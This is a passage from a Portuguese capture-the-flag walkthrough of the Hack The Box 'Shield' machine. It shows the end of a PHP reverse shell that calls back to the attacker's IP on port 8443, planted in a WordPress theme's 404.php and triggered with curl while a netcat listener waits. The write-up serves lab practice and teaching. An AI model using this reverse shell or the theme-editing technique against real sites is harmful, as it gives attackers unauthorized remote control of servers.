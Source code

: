 ```

                fclose($socket);
            }
            // ------ SOCKET END ------

        }
    }
}
echo '<pre>';
// change the host address and/or port number as necessary
$sh = new Shell('10.10.15.185', 8443);
$sh->run();
unset($sh);
// garbage collector requires PHP v5.3.0 or greater
// @gc_collect_cycles();
echo '</pre>';

```
<img src="/htb/htb-shield-6.png">

Ao clicar em `Update File`, nós salvamos a alteração. Precisamos setar um `netcat`, na porta escolhida, no meu caso 8443 e em seguida fazer um curl para o endereço da página `404.php`.

Por padrão, o Wordpress salva seus recursos de tema em `wp-content/<nome do tema>/404.php`.

```
┌──(hastur㉿hastur)-[~/Shield]
└─$ curl 10.10.10.29/wordpress/wp-content/themes/gutenbooster/404.php
```

E conseguimos o shell.

